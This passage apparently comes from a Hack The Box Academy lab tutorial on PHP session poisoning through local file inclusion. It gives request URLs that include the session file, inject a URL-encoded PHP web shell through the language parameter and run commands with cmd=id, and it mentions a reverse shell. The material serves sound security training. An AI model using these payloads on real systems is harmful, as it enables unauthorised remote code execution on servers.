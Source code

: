 ![image](https://academy.hackthebox.com/storage/modules/23/rfi_cookies_storage.png)

As we can see, our `PHPSESSID` cookie value is `nhhv8i0o6ua4g88bkdl9u1fdsd`, so it should be stored at `/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd`. Let's try include this session file through the LFI vulnerability and view its contents:

```
http://<SERVER_IP>:<PORT>/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd
```

![](https://academy.hackthebox.com/storage/modules/23/rfi_session_include.png)

**Note:** As you may easily guess, the cookie value will differ from one session to another, so you need to use the cookie value you find in your own session to perform the same attack.

We can see that the session file contains two values: `page`, which shows the selected language page, and `preference`, which shows the selected language. The `preference` value is not under our control, as we did not specify it anywhere and must be automatically specified. However, the `page` value is under our control, as we can control it through the `?language=` parameter.

Let's try setting the value of `page` a custom value (e.g. `language parameter`) and see if it changes in the session file. We can do so by simply visiting the page with `?language=session_poisoning` specified, as follows:

```url
http://<SERVER_IP>:<PORT>/index.php?language=session_poisoning
```

Now, let's include the session file once again to look at the contents:

```
http://<SERVER_IP>:<PORT>/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd
```

![](https://academy.hackthebox.com/storage/modules/23/lfi_poisoned_sessid.png)

This time, the session file contains `session_poisoning` instead of `es.php`, which confirms our ability to control the value of `page` in the session file. Our next step is to perform the `poisoning` step by writing PHP code to the session file. We can write a basic PHP web shell by changing the `?language=` parameter to a URL encoded web shell, as follows:

```url
http://<SERVER_IP>:<PORT>/index.php?language=%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E
```

Finally, we can include the session file and use the `&cmd=id` to execute a commands:

```
http://<SERVER_IP>:<PORT>/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd&cmd=id
```

![](https://academy.hackthebox.com/storage/modules/23/rfi_session_id.png)

Note: To execute another command, the session file has to be poisoned with the web shell again, as it gets overwritten with `/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd` after our last inclusion. Ideally, we would use the poisoned web shell to write a permanent web shell to the web directory, or send a reverse shell for easier interaction.

